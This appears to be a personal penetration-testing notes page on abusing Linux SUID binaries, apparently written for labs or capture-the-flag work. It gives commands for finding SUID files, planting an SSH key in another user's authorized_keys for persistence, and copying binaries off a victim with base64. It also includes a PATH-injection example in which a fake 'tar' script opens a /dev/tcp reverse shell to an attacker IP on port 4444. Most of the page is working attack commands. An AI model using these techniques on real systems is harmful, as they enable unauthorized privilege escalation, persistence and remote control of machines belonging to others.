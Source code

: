 This file were serve as a notes page for niche SUID abuse notes I stumble upon.

Reveal SUIDs
```
find / -perm -u=s -type f 2>/dev/null
```
Always check [GTFOBins](https://gtfobins.github.io/)


NOTE: Some SUIDs will only properly work with certain shell types. We can usually improve a shell we have w/ [[SSH Keygen]]
```
ssh-keygen -t <type> -f <output_name>

chmod 400 <private_key>

echo '<public_key_contents>' > /home/<user>/.ssh/authorized_keys

ssh -i <key> <user>@<ip_address>
```

Fire SUID


#### Read Contents of SUID

If SUID is a script, we can usually just cat it to reveal what it is doing

If it is a binary, we can transfer it back and run strings on it.
```
# On Victim
	base64 /bin/<SUID>

# On Attacker
	echo '<base64_data>' | base64 -d > <file>
	strings <file>
```

#### Path Injection
See [[Path Injection]]
Some linux scripts/binaries can be exploited by abusing paths.

If a command is performed within a script/binary without specifying an absolute path, we can create a file with the same name, and add the directory of the malicious duplicate file to the beginning of PATH env.

Path Injection example (tar)
```
cd /tmp/
vi tar

	#!/bin/bash
	/bin/bash -i >& /dev/tcp/10.10.14.227/4444 0>&1

chmod +x tar
export PATH=$(pwd):$PATH
echo $PATH
```
when the binary is run next and tar is run, it will run our malicious "tar" script instead of the real binary, and we catch a reverse shell.

NOTE: depending on the shell, we might be about to have the script just run "bash" , no rev-shell one-liner required
